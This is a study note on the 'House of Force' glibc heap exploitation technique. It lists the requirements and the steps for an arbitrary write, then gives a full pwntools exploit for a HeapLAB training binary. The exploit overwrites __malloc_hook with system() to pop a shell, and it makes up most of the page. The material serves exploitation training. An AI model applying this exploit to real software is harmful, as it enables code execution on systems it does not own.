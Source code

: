 ```yaml
---
title: "House of Force"
tags: [Binary Exploitation, Heap]
excerpt: "House of Force"
layout: single
classes: wide
--- 
```


## Requirements
* Control of top chunk size, usually through heap overflow
* Full control of size of allocated chunks

## Process
### Arbitrary Write Primitive
* Overwrite size of top chunk to `0xffffffffffffffff`
* Allocate chunk with size of `offset`, using `malloc()`
    * If `target < top_chunk`: `offset = top_chunk - target + allocated_chunks_size`
    * If `target > top_chunk`: `offset = target - top_chunk - allocated_chunks_size`
* Allocate new chunk, this chunk will be created at `target`

### Gaining RCE using ret2libc
_This requires libc version to be known_
* Overwrite `__malloc_hook` using write primitive with `system()`
* Call `malloc(/bin/sh)`

## Example: HeapLAB House of Force
```python
from pwn import *

config = {
    "elf" : "./house_of_force",
    "libc" : "./libc-2.28.so",
    "ld" : "./ld.so.2",
}

def malloc(size, data):
    sla('>', '1')
    sla('size:', str(size))
    sla('data:', data)

def exploit(p):
    # Get addresses
    ru('puts() @ ')
    puts = int(p.recvline().strip(), 16)
    ru('heap @ ')
    heap_addr = int(p.recvline().strip(), 16)
    
    # Calculate libc_base, etc...
    libc.address = puts - libc.symbols['puts']
    malloc_hook = libc.symbols['__malloc_hook']
    system = libc.symbols['system']
    binsh = libc.search('/bin/sh\x00').next()

    lg('heap_addr: ' + hex(heap_addr))
    lg('malloc_hook: ' + hex(malloc_hook))
    lg('system: ' + hex(system))
    lg('binsh: ' + hex(binsh))
    
    # House of Force: Overwrite top_chunk size
    malloc(24, '/bin/sh\x00'.ljust(24, "\x00") + p64(0xffffffffffffffff))
    
    """
    # Overwrite target with "OVERWRIT"
    target = elf.symbols['target']
    top_chunk = heap_addr + 0x20
    offset = top_chunk - target + 32
    ru('>')
    malloc(-offset, p64(0xdeadbeef))
    malloc(16, 'OVERWRIT')
    sla('>', '2')
    """

    # Pop shell with ret2libc by overwriting __malloc_hook with system() 
    top_chunk = heap_addr + 0x20
    offset = malloc_hook - top_chunk - 32
    ru('>')
    malloc(offset, "Y") 
    malloc(24, p64(system))
    sla('>', '1')
    sla('size:', str(binsh))

    p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])
    libc = ELF(config["libc"])

    p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
    pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```
